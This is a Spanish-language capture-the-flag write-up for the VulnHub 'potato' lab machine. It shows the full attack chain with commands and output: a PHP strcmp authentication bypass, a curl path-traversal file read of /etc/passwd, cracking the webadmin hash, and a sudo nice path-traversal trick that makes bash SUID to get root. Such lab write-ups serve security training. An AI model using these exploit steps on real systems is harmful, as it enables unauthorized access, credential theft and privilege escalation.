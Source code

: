 ```yaml
---
layout: post
title: potato - VulnHub
subtitle: "potato - VulnHub"
tags: [linux,php]
---
```


## Enumeración

```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
2112/tcp open  ftp     ProFTPD
```

### FTP 2112

Usuario anonymous habilitado

```
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
```

El contenido del archivo `index.php.bak` revela una funcion vulnerable de `php` (strcmp).

```
[...]
if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}
?>
[...]
```


### Servicio web 80

**Omisión de autenticación**  
[http://www.dimuthu.org/blog/2008/10/31/triple-equal-operator-and-null-in-php/](http://www.dimuthu.org/blog/2008/10/31/triple-equal-operator-and-null-in-php/)

Si establezco `$_POST['password']` igual a una matriz vacía, entonces strcmp devolvería un NULL. Debido a algunas debilidades inherentes en las comparaciones de PHP, `NULL==0` devolverá verdadero.

![https://hydrasky.com/wp-content/uploads/2017/05/loose-comparison.png](https://hydrasky.com/wp-content/uploads/2017/05/loose-comparison.png)

Con esto en mente, envié la siguiente solicitud a la página de inicio de sesión a través de BurpSuite.

![php](../assets/imgs/potato/php.png)

Y nos logueamos como usuario `admin`.

![admin](../assets/imgs/potato/admin.png)

### LFI

Dentro del panel de administración encuentro una parámetro vulnerable obteniendo el resultado siguiente:

![lfi](../assets/imgs/potato/lfi.png)

```
❯ curl -s "http://192.168.188.101/admin/dashboard.php?page=log" -H "Cookie: pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh" --data "file=../../../../../etc/passwd" | html2text | grep "../.." -A 100
```

```
Contenu du fichier ../../../../../etc/passwd :
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
[...]
florianges:x:1000:1000:florianges:/home/florianges:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
proftpd:x:112:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:113:65534::/srv/ftp:/usr/sbin/nologin
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/
```

Obtengo la contraseña de un usuario

```
❯ john --show hash
webadmin:dragon:1001:1001:webadmin,,,:/home/
```

## Escalada de privilegios

```
webadmin@serv:/tmp$ sudo -l
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
```

> nice: ejecuta un programa con prioridad de programación modificada

Creamos un script

```
webadmin@serv:/tmp$ cat shell.sh 
#!/bin/bash

chmod +s /bin/bash
echo $(ls -l /bin/bash)
```

Ejecutamos el siguiente comando.

```
webadmin@serv:/tmp$ sudo /bin/nice /notes/../../../../../tmp/shell.sh
-rwsr-sr-x 1 root root 1183448 Feb 25 2020 /bin/bash
```

Obtenemos root

```
webadmin@serv:/tmp$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/proof.txt 
417044d5f7358e8479462561c08d8362
```

### Herramientas usadas

- sudo
- nice
- php
- nmap
